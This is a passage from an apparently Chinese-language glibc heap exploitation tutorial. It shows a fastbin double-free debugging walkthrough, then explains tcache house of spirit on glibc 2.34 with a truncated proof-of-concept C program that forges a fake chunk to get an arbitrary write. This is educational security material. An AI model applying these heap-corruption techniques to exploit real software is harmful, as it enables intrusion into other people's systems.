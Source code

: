  

fastbin 链中存储的地址与栈中地址相差 0x10，即 16byte。原因就是前置知识中提到的 prev_size 和 size 头部数据。

 

第三次 free 后，看到 0x20 这条链中存了两个相同的地址。下面再进行 calloc 看看会发生什么。  
![](https://bbs.pediy.com/upload/attach/202204/882497_NNC4PPRNZTDKJXS.png)  
`0x555555756350`被取走了。  
![](https://bbs.pediy.com/upload/attach/202204/882497_GYUXS4KJ5YRCQ7Z.png)  
`0x555555756370`被取走了。  
![](https://bbs.pediy.com/upload/attach/202204/882497_4UAFFR2Z884YX29.png)  
`0x555555756350`又被取走了。这样 a 和 c 就指向了同一块内存。

tcache house of spirit glibc2.34
--------------------------------

### 原理

house of spirit 的主要思想就是通过伪造 chunk，再 free 掉 fake_chunk 使其进入 tcache bin，再次 malloc 的时候就会将这个 fake_chunk 从 tcache bin 中申请出来。这样就可以写任意地址。

### POC

```
#include #include #include int main()
{
    setbuf(stdout, NULL);
 
    printf("This file demonstrates the house of spirit attack on tcache.\n");
    printf("It works in a similar way to original house of spirit but you don't need to create fake chunk after the fake chunk that will be freed.\n");
    printf("You can see this in malloc.c in function _int_free that tcache_put is called without checking if next chunk's size and prev_inuse are sane.\n");
    printf("(Search for strings \"invalid next size\" and \"double free or corruption\")\n\n");
 
    printf("Ok. Let's start with the example!.\n\n");
 
 
    printf("Calling malloc() once so that it sets up its memory.\n");
    malloc(1);
 
    printf("Let's imagine we will overwrite 1 pointer to point to a fake chunk region.\n");
    unsigned long long *a; //pointer that will be overwritten
    unsigned long long fake_chunks[10]; //fake chunk region
 
    printf("This region contains one fake chunk. It's size field is placed at %p\n", &fake_chunks[1]);
 
    printf("This chunk size has to be falling into the tcache category (chunk.size <= 0x410; malloc arg <= 0x408 on x64). The PREV_INUSE (lsb) bit is ignored by free for tcache chunks, however the IS_MMAPPED (second lsb) and NON_MAIN_ARENA (third lsb) bits cause problems.\n");
    printf("... note that this has to be the size of the next malloc request rounded to the internal size used by the malloc implementation. E.g. on x64, 0x30-0x38 will all be rounded to 0x40, so they would work for the malloc parameter at the end. \n");
    fake_chunks[1] = 0x40; // this is the size
 
 
    printf("Now we will overwrite our pointer with the address of the fake region inside the fake first chunk, %p.\n", &fake_chunks[1]);
    printf("... note that the memory address of the *region* associated with this chunk must be 16-byte aligned.\n");
 
    a = &fake_chunks[2];
 
```